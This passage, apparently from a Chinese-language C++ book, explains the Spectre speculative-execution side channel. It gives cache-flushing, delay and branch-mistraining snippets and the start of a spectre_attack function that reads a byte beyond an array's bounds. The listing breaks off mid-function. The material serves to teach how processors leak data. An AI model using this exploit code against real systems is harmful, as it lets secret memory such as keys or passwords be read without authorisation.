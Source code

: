 你可能会想，为什么不简单地寻找一个快速访问？有两个原因：首先，我们不知道对于任何特定的硬件来说*快速*到底意味着什么；我们只知道它比*正常*更快。因此，我们也必须测量什么是*正常*。其次，任何单独的测量都不会是 100%可靠的：有时，计算会被另一个进程或操作系统中断；整个操作序列的确切时间取决于 CPU 在此时正在做什么，等等。这个过程只是很有可能会揭示秘密内存位置的值，但并不是 100%保证的，所以我们必须尝试多次并平均结果。

在执行此操作之前，我们看到代码中有几个遗漏。首先，它假设定时数组值尚未在缓存中。即使在我们开始时是真的，但在成功窥视第一个秘密字节之后，它也不会是真的。我们必须在攻击下一个要读取的字节之前每次都从缓存中清除定时数组：

```cpp
for (size_t i = 0; i < num_val; ++i) {
    _mm_clflush(timing_array + i);    // Un-cache the array
}
```

再次，我们使用 GCC/Clang 内置函数；大多数编译器都有类似的东西，但函数名称可能会有所不同。

其次，攻击只有在推测执行持续时间足够长，以便在 CPU 弄清楚应该采取哪个分支之前发生两次内存访问（数据和定时数组）时才能生效。实际上，按照现有的代码，推测执行上下文中的时间不够长，因此我们必须使得计算正确分支更加困难。有多种方法可以做到这一点；在这里，我们使分支条件依赖于从内存中读取某个值。我们将数组大小复制到另一个访问速度较慢的变量中：

```cpp
std::unique_ptr<size_t> data_size(new size_t(size));
```

现在我们必须确保在我们需要读取它之前将该值从缓存中清除，并使用存储在`*data_size`中的数组大小值，而不是原始的`size`值：

```cpp
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++z) {}  // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
    access_memory(timing_array + data[i]);
}
```

在前面的代码中还有一个神奇的*延迟*，一些无用的计算将缓存刷新与数据大小的访问分开（它击败了可能的指令重排序，让 CPU 更快地访问数组大小）。现在条件`i < *data_size`需要一些时间来计算：CPU 需要在知道结果之前从内存中读取值。分支根据更可能的结果进行预测，即有效索引，因此数组被进行了推测性访问。

## 幽灵，释放

最后一步是将所有内容汇总并多次运行该过程，以积累统计上可靠的测量数据（鉴于单个指令的定时测量非常嘈杂，因为计时器本身所需的时间大约与我们试图测量的时间一样长）。

以下函数攻击数据数组之外的单个字节：

```cpp
char spectre_attack(const char* data, 
                    size_t size, size_t evil_index) {
  constexpr const size_t num_val = 256;
  struct timing_element { char s[1024]; };
  static timing_element timing_array[num_val];
  ::memset(timing_array, 1, sizeof(timing_array));
  std::array<long, num_val> latencies = {};
  std::array<int, num_val> scores = {};
  size_t i1 = 0, i2 = 0;      // Two highest scores
  std::unique_ptr<size_t> data_size(new size_t(size));
  constexpr const size_t n_iter = 1000;
  for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
    for (size_t i = 0; i < num_val; ++i) {
      _mm_clflush(timing_array + i);  // Un-cache the array
    }
    const size_t ok_index = i_iter % size;
    constexpr const size_t n_read = 100;
    for (size_t i_read = 0; i_read < n_read; ++i_read) {
      _mm_clflush(&*data_size);
      for (volatile int z = 0; z < 1000; ++z) {}  // Delay
      const size_t i = (i_read & 0xf) ? ok_index : 
        evil_index;
      if (i < *data_size) {
        access_memory(timing_array + data[i]);
      }
    }
```